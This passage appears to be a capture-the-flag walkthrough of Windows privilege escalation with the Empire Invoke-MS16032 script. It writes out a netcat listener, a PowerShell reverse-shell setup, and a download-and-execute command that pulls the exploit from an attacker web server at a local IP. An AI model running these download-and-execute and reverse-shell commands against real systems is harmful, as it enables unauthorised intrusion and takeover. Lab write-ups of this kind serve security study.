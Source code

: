 
*good proof of concept if we had an interactive shell with gui. Luckily, EMPIRE does have exploit.*

    /Empire/data/module_source/privesc

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557126958124_image.png)

*viewing “Invoke-MS16032.ps1”*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127016535_image.png)

example:

    Invoke-MS16032 -Command "iex(New-Object.WebClient).DownloadString('http://google.com')"

*There was a mistake with the example as it included a “-” where the filename doesn’t. Corrected in above example.*

at very bottom of script copy/paste command:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127303043_image.png)

*get rid of “-”, change google to localip with “shell.ps1” and save.*

Copy “Invoke-PowershellTcp.ps1” to “Shell.ps1”

    cp Invoke-PowershellTcp.ps1 Shell.ps1

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127462708_image.png)

edit to port 1338

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127505315_image.png)

setup listener for port 1338

    nc -lvnp 1338

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127590571_image.png)

Target nc session download Invoke-MS16032.ps1

    IEX(New-Object.WebClient).DownloadString('http://10.10.14.17:8000/Invoke-MS16032.ps1')

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127884986_image.png)

download it our webserver:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127926038_image.png)

(returns)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557127993789_image.png)

# Root&Loot
on port “1338” the Shell.ps1 is loaded
